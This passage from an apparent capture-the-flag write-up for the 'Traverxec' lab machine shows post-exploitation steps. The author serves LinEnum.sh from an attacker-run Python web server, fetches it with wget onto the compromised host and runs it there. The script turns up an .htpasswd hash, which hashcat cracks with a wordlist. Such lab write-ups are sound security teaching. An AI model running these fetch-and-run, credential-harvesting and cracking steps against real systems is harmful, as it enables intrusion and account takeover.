 Lets see if running [`LinEnum`](https://github.com/rebootuser/LinEnum) will give us any insights on how to carry on. I will be starting a web server on my machine using the builtin `SimpleHTTPServer` module in `python` and use `wget` to retrieve it.

{% highlight bash %}
$ mkdir httpserver
$ cd httpserver
$ cp ~/LinEnum.sh .
$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
{% endhighlight %}

{% highlight bash %}
www-data@traverxec:/usr/bin$ cd /tmp
www-data@traverxec:/tmp$ wget http://10.10.XX.XX/LinEnum.sh
--2019-12-31 09:22:23--  http://10.10.XX.XX/LinEnum.sh
Connecting to 10.10.XX.XX:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46476 (45K) [text/x-sh]
Saving to: 'LinEnum.sh'

LinEnum.sh          100%[===================>]  45.39K  59.2KB/s    in 0.8s    

2019-12-31 09:22:24 (59.2 KB/s) - 'LinEnum.sh' saved [46476/46476]

www-data@traverxec:/tmp$ 
{% endhighlight %}

Running `LinEnum.sh` shows that there is a username and a password hash in a `.htaccess` file.

{% highlight bash %}
www-data@traverxec:/tmp$ ./LinEnum.sh
...
[-] htpasswd found - could contain passwords:
/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
...
{% endhighlight %}

To crack it, I will be using `hashcat`.

{% highlight bash %}
$ hashcat -m 500 -a 0 hash /usr/share/wordlists/rockyou.txt
...
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me    
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
Time.Started.....: Sat Dec 21 09:07:19 2019 (5 mins, 0 secs)
Time.Estimated...: Sat Dec 21 09:12:19 2019 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    36494 H/s (6.67ms) @ Accel:256 Loops:125 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 10776576/14344385 (75.13%)
Rejected.........: 0/10776576 (0.00%)
Restore.Point....: 10774528/14344385 (75.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:875-1000
Candidates.#1....: OBADIAH -> Nov25th

Started: Sat Dec 21 09:07:16 2019
Stopped: Sat Dec 21 09:12:20 2019
{% endhighlight %}
